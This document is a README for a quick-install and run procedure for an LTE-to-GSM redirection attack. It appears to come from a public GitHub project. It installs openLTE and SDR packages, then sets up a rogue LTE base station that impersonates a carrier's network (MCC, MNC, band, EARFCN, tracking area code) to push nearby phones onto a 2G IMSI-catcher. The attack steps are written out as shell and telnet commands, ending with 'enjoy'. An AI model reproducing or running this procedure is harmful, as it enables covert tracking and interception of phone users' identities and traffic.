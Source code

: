 # openlte_redirection_quickinstall
* Installation
Follow this readme :  
https://github.com/bbaranoff/openLTE2GSM/

```
apt update
```
```
apt-get install git
```
```
git clone https://github.com/bbaranoff/openLTE2GSM/
```
```
cd openLTE2GSM/
```
```
sudo chmod +x install.sh
```
```
sudo ./install.sh
```

The bash script is :  
sudo apt update  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/uhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapysdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/bladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapybladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapyuhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gnuradio_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gr-osmosdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/polarssl_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/openlte_20211230-1_amd64.deb  
dpkg -i *.deb  
export LD_LIBRARY_PATH=/usr/local/lib/  
sudo ldconfig  
sudo apt install libboost-date-time1.67.0 libboost-filesystem1.67.0 libboost-regex1.67.0 libboost-serialization1.67.0 libboost-serialization1.67.0  
echo "Done !!!!"


# OTHER INSTALLATION :  

```
sudo apt install libboost-program-options1.67.0 libboost-thread1.67.0 libusb-1.0-0 usbutils python-is-python3 python3-requests  
```
```
sudo apt install libfftw3-3
```
```
/usr/lib/uhd/utils/uhd_images_downloader.py
```

* Installing 2G IMSI-Catcher with ARFCN 514
Then build 2G IMSI-Catcher  
Build IMSI-catcher  

* Testing the attack
Running  
Phone in 2G/3G/4G mode  
This article is in progress and is just a PoC  
The attack step are run the IMSI-catcher into arfcn 514 follow (see Build IMSI-catcher)  
run the 4G redirector as follow  
  
# Shell #1  
```
LTE_fdd_enodeb
```

# Shell #2  
```
telnet localhost 30000  
```
```
write rx_gain 30  
```
```
write tx_gain 80  
```
```
write mcc 215  
```
```
write mnc 15  
```
```
write band 7  
```
```
write dl_earfcn 3350  
```
```
write tracking_area_code 6604   
```

(change with your ue values be careful that the earfcn is in the band)  
  
Then switch the phone in airplane mode and in  localhost:30000 (Shell #2) :  
```
start  
```

wait… and when you have “ok” answer in shell #2 remove airplane mode and … enjoy !

* Video explaining :  
** https://www.youtube.com/watch?v=CL4THUyUSDc&t=34s&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg  
** https://www.youtube.com/shorts/j5cs28u4DAo  
** https://www.youtube.com/watch?v=GmPN6CblvaQ&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg
